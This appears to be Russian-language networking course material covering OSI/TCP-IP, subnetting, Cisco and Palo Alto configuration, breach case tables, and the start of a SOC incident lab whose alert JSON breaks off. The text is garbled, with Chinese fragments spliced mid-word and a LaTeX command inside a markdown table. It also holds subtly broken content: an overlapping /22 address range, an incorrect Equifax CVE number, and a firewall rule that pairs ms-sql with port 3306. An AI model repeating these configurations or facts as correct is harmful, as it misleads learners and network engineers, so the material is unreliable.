









---
# 1.1 Сетевые модели OSI и TCP/IP
## 📘 Теоретическая база (Углублённо)
Модели сетевого взаимодействия — это **фундамент** понимания того, как данные перемещаются от вашего браузера до сервера на другом конце света.
### Сравнительный анализ моделей

| Уровень | Модель OSI (ISO/IEC 7498) | Модель TCP/IP (RFC 1122) | Единица данных (PDU) | Ключевые протоколы | Оборудование | Время обработки |
| :---: | :--- | :--- | :---: | :--- | :--- | :---: |
| **7** | **Прикладной** (Application) | \multirow{3}{*}{**Прикладной**} | Сообщение | HTTP/2, HTTP/3, gRPC, WebSocket | Прокси, WAF, Балансировщики L7 | 1-10 мс |
| **6** | **Представления** (Presentation) | | Данные | TLS 1.3, JSON, XML, Protobuf | Шлюзы, Транскодеры | 0.5-5 мс |
| **5** | **Сеансовый** (Session) | | Диалог | RPC, NetBIOS, SIP | Session Controllers | 0.1-1 мс |
| **4** | **Транспортный** (Transport) | **Транспортный** | Сегмент (TCP) / Дейтаграмма (UDP) | TCP, UDP, QUIC, SCTP | Фаерволы L4, Load Balancers | 0.1-0.5 мс |
| **3** | **Сетевой** (Network) | **Межсетевой** (Internet) | Пакет | IPv4, IPv6, ICMP, IPSec, BGP | **Маршрутизаторы**, L3 Switch | 0.05-0.2 мс |
| **2** | **Канальный** (Data Link) | **Канальный** (Network Access) | Кадр | Ethernet 802.3, Wi-Fi 802.11ax, VLAN, MPLS | **Коммутаторы**, Мосты, NIC | 0.01-0.05 мс |
| **1** | **Физический** (Physical) | **Физический** | Бит | 10GbE, 40GbE, 100GbE, DWDM | Кабели, SFP+, Трансиверы | <0.01 мс |

**Интересный факт**
Модель OSI была создана в 1984 году как теоретический стандарт, но TCP/IP победил потому, что был **практичным** и уже работал в ARPANET. Сегодня мы используем гибридный подход: говорим об OSI для обучения, но реализуем TCP/IP.
## 🔬 Практическая работа №1.1: "Анализ инкапсуляции в Wireshark"

**Цель:** Увидеть своими глазами, как данные проходят через уровни модели OSI.

**Необходимые инструменты:**
- Wireshark (последняя версия)
- Доступ к любой сети (домашняя/учебная)
- Браузер с открытой вкладкой Developer Tools (F12)
### Шаг 1: Захват трафика

```bash
# 1. Откройте Wireshark от имени администратора
# 2. Выберите активный сетевой интерфейс (Ethernet или Wi-Fi)
# 3. В фильтре введите: http or dns or tcp.port==443
# 4. Нажмите Start (синяя кнопка с акулой)
# 5. Откройте браузер и перейдите на http://example.com
# 6. Остановите захват через 10 секунд
```

### Шаг 2: Анализ пакета (Детальная разборка)
Найдите пакет HTTP GET и разверните все уровни:
```
┌─────────────────────────────────────────────────────────────────────────┐
│                    ПАКЕТ №142 (HTTP GET REQUEST)                        │
├─────────────────────────────────────────────────────────────────────────┤
│ Физический уровень (L1)                                                 │
│ ├─ Arrival Time: Jan 15, 2026 14:32:17.123456789                       │
│ ├─ Frame Length: 542 bytes                                              │
│ └─ Capture Length: 542 bytes                                            │
├─────────────────────────────────────────────────────────────────────────┤
│ Канальный уровень (L2) - Ethernet II                                    │
│ ├─ Destination: 00:1a:2b:3c:4d:5e (Router)                             │
│ ├─ Source: aa:bb:cc:dd:ee:ff (Your PC)                                 │
│ └─ Type: IPv4 (0x0800)                                                  │
├─────────────────────────────────────────────────────────────────────────┤
│ Сетевой уровень (L3) - Internet Protocol Version 4                      │
│ ├─ Version: 4                                                           │
│ ├─ Header Length: 20 bytes                                              │
│ ├─ Total Length: 528 bytes                                              │
│ ├─ Source: 192.168.1.100                                                │
│ ├─ Destination: 93.184.216.34 (example.com)                            │
│ └─ Protocol: TCP (6)                                                    │
├─────────────────────────────────────────────────────────────────────────┤
│ Транспортный уровень (L4) - Transmission Control Protocol               │
│ ├─ Source Port: 52341                                                   │
│ ├─ Destination Port: 80 (HTTP)                                          │
│ ├─ Sequence Number: 1                                                   │
│ ├─ Acknowledgment Number: 1                                             │
│ ├─ Flags: PSH, ACK                                                      │
│ └─ Window Size: 64240                                                   │
├─────────────────────────────────────────────────────────────────────────┤
│ Прикладной уровень (L7) - Hypertext Transfer Protocol                   │
│ ├─ Request Method: GET                                                  │
│ ├─ Request URI: /                                                       │
│ ├─ Host: example.com                                                    │
│ ├─ User-Agent: Mozilla/5.0...                                           │
│ └─ Accept: text/html,application/xhtml+xml...                           │
└─────────────────────────────────────────────────────────────────────────┘
```
### Шаг 3: Визуализация потока данных



### Шаг 4: Задание для самостоятельной работы

| № | Задание | Ожидаемый результат | Баллы |
| :---: | :--- | :--- | :---: |
| 1 | Найдите DNS-запрос к example.com | Пакет UDP порт 53 | 5 |
| 2 | Найдите TCP handshake (SYN, SYN-ACK, ACK) | 3 пакета подряд | 10 |
| 3 | Определите MAC-адрес вашего шлюза | Поле Destination в Ethernet | 5 |
| 4 | Найдите размер TCP Window | Поле Window Size в TCP | 5 |
| 5 | Экспортируйте 10 пакетов в формате PCAP | Файл для анализа | 5 |

---
# 1.2 IP-адреса и маски подсетей

## 📘 Теоретическая база (Углублённо)
### Математика субтитрования

| Префикс | Маска (DEC) | Маска (Binary) | Хостов | Подсетей из /24 | Использование |
| :---: | :--- | :--- | :---: | :---: | :--- |
| `/8` | 255.0.0.0 | `11111111.00000000.00000000.00000000` | 16,777,214 | — | Крупные провайдеры |
| `/16` | 255.255.0.0 | `11111111.11111111.00000000.00000000` | 65,534 | 256 | Корпорации |
| `/24` | 255.255.255.0 | `11111111.11111111.11111111.00000000` | 254 | 1 | Малый офис |
| `/25` | 255.255.255.128 | `11111111.11111111.11111111.10000000` | 126 | 2 | Отдел |
| `/26` | 255.255.255.192 | `11111111.11111111.11111111.11000000` | 62 | 4 | Команда |
| `/27` | 255.255.255.224 | `11111111.11111111.11111111.11100000` | 30 | 8 | Группа |
| `/28` | 255.255.255.240 | `11111111.11111111.11111111.11110000` | 14 | 16 | Серверы |
| `/29` | 255.255.255.248 | `11111111.11111111.11111111.11111000` | 6 | 32 | Point-to-Point |
| `/30` | 255.255.255.252 | `11111111.11111111.11111111.11111100` | 2 | 64 | WAN Link |
| `/31` | 255.255.255.254 | `11111111.11111111.11111111.11111110` | 2* | 128 | RFC 3021 Link |
| `/32` | 255.255.255.255 | `11111111.11111111.11111111.11111111` | 1 | 256 | Loopback/Host |
## 🔬 Практическая работа №1.2: "Проектирование сети университета"
**Легенда:** Вы — сетевой инженер нового кампуса университета. Вам выделена сеть `10.0.0.0/16`. Нужно спроектировать адресацию для всех подразделений.
### Шаг 1: Требования заказчика

| Подразделение | Пользователей | Устройств IoT | Серверов | Всего хостов | Критичность |
| :--- | :---: | :---: | :---: | :---: | :---: |
| **Администрация** | 50 | 10 | 5 | 65 | 🔴 Критично |
| **Факультет ИТ** | 200 | 50 | 20 | 270 | 🔴 Критично |
| **Факультет Экономики** | 150 | 30 | 10 | 190 | 🟡 Важно |
| **Библиотека** | 100 | 20 | 5 | 125 | 🟡 Важно |
| **Студенческое общежитие** | 500 | 100 | 0 | 600 | 🟢 Стандарт |
| **Гостевой Wi-Fi** | 200 | 0 | 0 | 200 | 🟢 Стандарт |
| **Серверная (DMZ)** | 0 | 0 | 50 | 50 | 🔴 Критично |
| **Management Network** | 10 | 100 | 20 | 130 | 🔴 Критично |
| **Резерв** | — | — | — | 1000 | — |
### Шаг 2: Расчет подсетей (VLSM)

```mermaid
graph TD
    Root[10.0.0.0/16<br/>65,536 адресов]
    Root --> Dorm[Общежитие 10.0.0.0/22<br/>1024 адреса • 1022 хоста]
    Root --> IT[Факультет ИТ 10.0.4.0/23<br/>512 адресов • 510 хостов]
    Root --> Econ[Экономика 10.0.6.0/24<br/>256 адресов • 254 хоста]
    Root --> Library[Библиотека 10.0.7.0/24<br/>256 адресов • 254 хоста]
    Root --> Guest[Гостевой Wi-Fi 10.0.8.0/24<br/>256 адресов • 254 хоста]
    Root --> Admin[Администрация 10.0.9.0/25<br/>128 адресов • 126 хостов]
    Root --> Server[Серверная DMZ 10.0.9.128/25<br/>128 адресов • 126 хостов]
    Root --> Mgmt[Management 10.0.9.192/26<br/>64 адреса • 62 хоста]
    Root --> Reserve[Резерв 10.0.10.0/23<br/>512 адресов]
    
    style Root fill:#1e3a8a,color:#fff,stroke-width:3px
    style Dorm fill:#3b82f6,color:#fff
    style IT fill:#3b82f6,color:#fff
    style Admin fill:#ef4444,color:#fff
    style Server fill:#ef4444,color:#fff
    style Mgmt fill:#ef4444,color:#fff
    style Reserve fill:#10b981,color:#fff
```



### Шаг 3: Таблица адресации

| VLAN ID | Подразделение  | Сеть         | Маска | Первый хост  | Последний хост | Broadcast    |  Шлюз  |
| :-----: | :------------- | :----------- | :---- | :----------- | :------------- | :----------- | :----: |
|   10    | Администрация  | `10.0.9.0`   | `/25` | `10.0.9.1`   | `10.0.9.126`   | `10.0.9.127` |  `.1`  |
|   20    | Факультет ИТ   | `10.0.4.0`   | `/23` | `10.0.4.1`   | `10.0.5.254`   | `10.0.5.255` |  `.1`  |
|   30    | Экономика      | `10.0.6.0`   | `/24` | `10.0.6.1`   | `10.0.6.254`   | `10.0.6.255` |  `.1`  |
|   40    | Библиотека     | `10.0.7.0`   | `/24` | `10.0.7.1`   | `10.0.7.254`   | `10.0.7.255` |  `.1`  |
|   50    | Общежитие      | `10.0.0.0`   | `/22` | `10.0.0.1`   | `10.0.7.254`   | `10.0.7.255` |  `.1`  |
|   60    | Гостевой Wi-Fi | `10.0.8.0`   | `/24` | `10.0.8.1`   | `10.0.8.254`   | `10.0.8.255` |  `.1`  |
|   100   | Серверная DMZ  | `10.0.9.128` | `/25` | `10.0.9.129` | `10.0.9.254`   | `10.0.9.255` | `.129` |
|   200   | Management     | `10.0.9.192` | `/26` | `10.0.9.193` | `10.0.9.254`   | `10.0.9.255` | `.193` |
### Шаг 4: Конфигурация оборудования (Cisco IOS)

```bash
! ============================================
! КОНФИГУРАЦИЯ МАРШРУТИЗАТОРА (CORE-ROUTER)
! ============================================
configure terminal
hostname CORE-ROUTER

! Настройка интерфейсов для каждой подсети
interface GigabitEthernet0/0.10
 description VLAN10_Administration
 encapsulation dot1Q 10
 ip address 10.0.9.1 255.255.255.128
 ip helper-address 10.0.9.130  ! DHCP Server
exit

interface GigabitEthernet0/0.20
 description VLAN20_IT_Faculty
 encapsulation dot1Q 20
 ip address 10.0.4.1 255.255.254.0
 ip helper-address 10.0.9.130
exit

interface GigabitEthernet0/0.30
 description VLAN30_Economics
 encapsulation dot1Q 30
 ip address 10.0.6.1 255.255.255.0
 ip helper-address 10.0.9.130
exit

! Настройка DHCP пулов
ip dhcp pool VLAN10_ADMIN
 network 10.0.9.0 255.255.255.128
 default-router 10.0.9.1
 dns-server 8.8.8.8 1.1.1.1
 lease 7
exit

ip dhcp pool VLAN20_IT
 network 10.0.4.0 255.255.254.0
 default-router 10.0.4.1
 dns-server 8.8.8.8 1.1.1.1
 lease 7
exit

! Статическая маршрутизация к провайдеру
ip route 0.0.0.0 0.0.0.0 203.0.113.1

! Сохранение конфигурации
write memory
```
---
# 1.3 Протоколы и сетевое оборудование
## 📘 Теоретическая база (Углублённо)
### Матрица оборудования по уровням OSI


### Протоколы и их характеристики

| Протокол     | Уровень |  Порт  | Транспорт |   Шифрование   | Безопасность | Использование          |
| :----------- | :-----: | :----: | :-------: | :------------: | :----------- | ---------------------- |
| **HTTP/1.1** |   L7    |   80   |    TCP    |     ❌ Нет      | 🔴 Критично  | Устарело               |
| **HTTP/2**   |   L7    |  443   |    TCP    |   ✅ TLS 1.2+   | 🟢 Хорошо    | Современный веб        |
| **HTTP/3**   |   L7    |  443   | QUIC/UDP  |   ✅ TLS 1.3    | 🟢 Отлично   | Будущее веба           |
| **SSH**      |   L7    |   22   |    TCP    |      ✅ Да      | 🟢 Отлично   | Удалённое управление   |
| **Telnet**   |   L7    |   23   |    TCP    |     ❌ Нет      | 🔴 Критично  | Запретить              |
| **FTP**      |   L7    |   21   |    TCP    |     ❌ Нет      | 🔴 Критично  | Заменить на SFTP       |
| **SFTP**     |   L7    |   22   |    TCP    |     ✅ SSH      | 🟢 Отлично   | Передача файлов        |
| **DNS**      |   L7    |   53   |  UDP/TCP  | ⚠️ Опционально | 🟡 Средне    | DNSSEC/DoH             |
| **SMTP**     |   L7    | 25/587 |    TCP    |  ⚠️ STARTTLS   | 🟡 Средне    | Почта                  |
| **SNMPv2**   |   L7    |  161   |    UDP    |     ❌ Нет      | 🔴 Критично  | Заменить на v3         |
| **SNMPv3**   |   L7    |  161   |    UDP    |      ✅ Да      | 🟢 Хорошо    | Мониторинг             |
| **RDP**      |   L7    |  3389  |    TCP    |     ✅ TLS      | 🟡 Средне    | Удалённый рабочий стол |
| **HTTPS**    |   L7    |  443   |    TCP    |   ✅ TLS 1.2+   | 🟢 Отлично   | Защищённый веб         |

## 🔬 Практическая работа №1.3: "Построение корпоративной сети"

**Легенда:** Вы проектируете сеть для компании на 200 сотрудников с филиалами.
### Шаг 1: Схема сети (Mermaid)


### Шаг 2: Конфигурация VLAN и Trunk
```bash
! ============================================
! КОНФИГУРАЦИЯ КОММУТАТОРА (ACCESS-SW-01)
! ============================================
configure terminal
hostname ACCESS-SW-01

! Создание VLAN
vlan 10
 name ADMIN
vlan 20
 name SALES
vlan 30
 name IT
vlan 100
 name GUEST_WIFI
vlan 200
 name MANAGEMENT
vlan 999
 name NATIVE  ! Native VLAN для безопасности

! Настройка портов доступа (Access Ports)
interface range GigabitEthernet1/0/1-10
 description ADMIN_PORTS
 switchport mode access
 switchport access vlan 10
 switchport port-security
 switchport port-security maximum 2
 switchport port-security violation shutdown
 spanning-tree portfast
 spanning-tree bpduguard enable
exit

interface range GigabitEthernet1/0/11-20
 description SALES_PORTS
 switchport mode access
 switchport access vlan 20
 switchport port-security
 switchport port-security maximum 3
 switchport port-security violation restrict
 spanning-tree portfast
 spanning-tree bpduguard enable
exit

! Настройка магистрального порта (Trunk)
interface GigabitEthernet1/0/24
 description UPLINK_TO_CORE
 switchport mode trunk
 switchport trunk native vlan 999
 switchport trunk allowed vlan 10,20,30,100,200
 switchport nonegotiate  ! Отключаем DTP для безопасности
exit

! Защита от атак L2
ip arp inspection vlan 10,20,30
ip dhcp snooping
ip dhcp snooping vlan 10,20,30
no ip dhcp snooping information option

! Сохранение
write memory
```

### Шаг 3: Таблица выбора оборудования

| Устройство | Модель (пример) | Количество | Уровень OSI | Критерий выбора | Цена (пример) |
| :--- | :--- | :---: | :---: | :--- | :---: |
| **NGFW** | Palo Alto PA-3220 | 2 (HA) | L4-L7 | Throughput 10 Gbps, Threat Prevention | $25,000 |
| **Core Switch** | Cisco Catalyst 9300-48P | 2 (Stack) | L3 | 48 портов PoE+, 10G Uplink | $15,000 |
| **Access Switch** | Cisco Catalyst 9200-24P | 8 | L2 | 24 порта PoE+, бюджет | $3,000 |
| **Wireless AP** | Cisco Catalyst 9120AX | 12 | L2 | Wi-Fi 6, 2.5G Ethernet | $1,500 |
| **WLC** | Cisco Catalyst 9800-40 | 1 | L3 | Управление 200+ AP | $20,000 |
| **NAC** | Cisco ISE Plus | 1 | L3-L7 | 500 лицензий | $30,000 |
| **Кабель** | Cat6A F/UTP | 5000 м | L1 | 10 Gbps до 100 м | $2/м |
| **SFP+** | 10G LC SR | 20 | L1 | Мультимод оптика | $50/шт |

### Шаг 4: Диагностика сети

```bash
# Проверка连通ности
ping 10.0.10.1 source vlan 10
ping 10.0.20.1 source vlan 20
ping 10.0.30.1 source vlan 30

# Проверка маршрутизации
show ip route
show ip route 10.0.0.0

# Проверка VLAN
show vlan brief
show interfaces trunk

# Проверка портов
show interfaces status
show interfaces counters errors

# Проверка безопасности
show port-security
show ip arp inspection vlan
show ip dhcp snooping

# Проверка CDP/LLDP соседей
show cdp neighbors detail
show lldp neighbors detail
```
---
# 1.4 Сетевая безопасность и защита
## 📘 Теоретическая база (Углублённо)
### CIA-Триада в деталях



### Реальные кейсы нарушений CIA

| Свойство | Инцидент | Год | Ущерб | Причина | Урок |
| :--- | :--- | :---: | :--- | :--- | :--- |
| **Конфиденциальность** | Equifax | 2017 | $1.4 млрд | CVE-2017-5632 (Apache Struts) | Патч-менеджмент критичен |
| **Конфиденциальность** | Yahoo | 2014 | $350 млн | SQL Injection, слабые хеши | MFA + Argon2 для паролей |
| **Целостность** | NotPetya | 2017 | $10+ млрд | Supply Chain (M.E.Doc) | 3-2-1 бэкапы, проверка подписей |
| **Целостность** | SolarWinds | 2020 | $100+ млн | Supply Chain (Sunburst) | SBOM, изоляция обновлений |
| **Доступность** | GitHub DDoS | 2018 | Минимальный | Memcached Amplification 1.35 Tbps | Scrubbing centers, Anycast |
| **Доступность** | Colonial Pipeline | 2021 | $4.4 млн выкуп | Ransomware (DarkSide) | Сегментация IT/OT сетей |

## 🔬 Практическая работа №1.4: "Построение защищённой архитектуры"

**Легенда:** Вы — архитектор безопасности. Нужно защитить сеть от современных угроз.
### Шаг 1: Архитектура Zero Trust


### Шаг 2: Правила фаервола (NGFW)

| № | Источник | Назначение | Порт/Протокол | Действие | Профиль безопасности | Логирование |
| :---: | :--- | :--- | :--- | :---: | :--- | :---: |
| 1 | Any | DMZ-Web | TCP 443 | ALLOW | Threat Prevention, URL Filtering | ✅ Start+End |
| 2 | Any | DMZ-Web | TCP 80 | ALLOW | Redirect to HTTPS | ✅ Start+End |
| 3 | Any | Internal | Any | DENY | — | ✅ Start |
| 4 | DMZ-Web | Internal-DB | TCP 3306 | ALLOW |仅限特定 IP, Threat Prevention | ✅ Start+End |
| 5 | Management | Any | TCP 22 | ALLOW |仅限 Management VLAN, Rate Limiting | ✅ Start+End |
| 6 | Any | Any | ICMP Echo | ALLOW | Rate Limiting 10/s | ⚠️ End only |
| 7 | Guest-WiFi | Internet | TCP 80,443 | ALLOW | URL Filtering (Category), AV | ✅ Start+End |
| 8 | Guest-WiFi | Internal | Any | DENY | — | ✅ Start |
| 9 | Any | Any | P2P/Torrent | DENY | Application Control | ✅ Start |
| 10 | Any | Any | Any | DENY | — | ✅ Start (Default) |
### Шаг 3: Конфигурация NGFW (Palo Alto风格)
```bash
# ============================================
# КОНФИГУРАЦИЯ NGFW (Palo Alto Networks)
# ============================================

# Создание зон безопасности
set zone untrust network layer3 ethernet1/1
set zone trust network layer3 ethernet1/2
set zone dmz network layer3 ethernet1/3

# Создание объектов адресов
set address dmz web-server ip-netmask 10.0.100.10/32
set address internal db-server ip-netmask 10.0.200.50/32
set address management mgmt-vlan ip-netmask 10.0.250.0/24

# Создание правил безопасности
set rulebase security rules "Allow-HTTPS-to-DMZ" from untrust to dmz \
    source any destination web-server application ssl service application-default \
    action allow profile-setting "Threat-Prevention-Profile" log-start yes log-end yes

set rulebase security rules "Allow-DMZ-to-DB" from dmz to trust \
    source web-server destination db-server application ms-sql service tcp-3306 \
    action allow profile-setting "Threat-Prevention-Profile" log-start yes log-end yes

set rulebase security rules "Deny-Guest-to-Internal" from guest to trust \
    source any destination any application any service any action deny log-start yes

set rulebase security rules "Default-Deny" from any to any \
    source any destination any application any service any action deny log-start yes

# Настройка Threat Prevention
set profiles vulnerability "Threat-Prevention-Profile" rule "critical-high" action drop
set profiles antivirus "Threat-Prevention-Profile" rule "critical-high" action drop

# Настройка URL Filtering
set profiles url-filtering "Corporate-Policy" block categories "gambling", "adult", "p2p"
set profiles url-filtering "Corporate-Policy" alert categories "news", "social-networking"

# Commit конфигурации
commit
```

---
# 1.5 Сетевые атаки и методы защиты
## 📘 Теоретическая база (Углублённо)
### Cyber Kill Chain (Lockheed Martin) + MITRE ATT&CK


### Детальный разбор атаки Target (2013)

| Этап                     | Действия злоумышленника           | Технические индикаторы         | MITRE ATT&CK | Детекция                |
| :----------------------- | :-------------------------------- | :----------------------------- | :----------- | :---------------------- |
| **1. Рекогносцировка**   | OSINT подрядчика Fazio Mechanical | DNS-запросы whois, Shodan      | T1592, T1590 | Мониторинг упоминаний   |
| **2. Доставка**          | Фишинг Invoice_4521.pdf.exe       | SPF fail, вложение .exe        | T1566.001    | Песочница, DMARC        |
| **3. Эксплуатация**      | CVE-2010-2729 (Print Spooler)     | EventID 4688, spoolsv.exe      | T1211, T1203 | EDR, Patch Management   |
| **4. Установка**         | Citadel Trojan, бэкдор            | Автозагрузка, скрытые процессы | T1547, T1053 | FIM, мониторинг реестра |
| **5. C2**                | HTTPS к серверу в России          | DNS x7k2m9p4q1.ru, порт 443    | T1071, T1568 | DNS-фильтрация, NetFlow |
| **6. Подъём привилегий** | Mimikatz, Pass-the-Hash           | EventID 4624 Type 3, LSASS     | T1003, T1550 | LAPS, Credential Guard  |
| **7. Достижение целей**  | POS-терминалы, 40 млн карт        | FTP-трафик, EventID 4663       | T1078, T1567 | DLP, сегментация        |

## 🔬 Практическая работа №1.5: "Расследование инцидента"
**Легенда:** SIEM сгенерировал алерт. Вы — аналитик SOC L2. Нужно расследовать инцидент.
### Шаг 1: Исходные данные (SIEM Alert)
```json
{
  "alert_id": "ALERT-2026-0315-0042",
  "timestamp": "2026-03-15T14:32:17Z",
  "severity": "HIGH",
  "source": "Splunk ES",
  "rule_name": "PowerShell Encoded Command Execution",
  "confidence": 85,
  "host": "WS-045.corp.local",
  "ip": "192.168.10.45",
  "user": "jsmith@company.local",
  "department": "Бухгалтерия",
  "process": "powershell.exe",
  "pid": 4532,
  "parent_process": "WINWORD.EXE",
  "parent_pid": 3821,
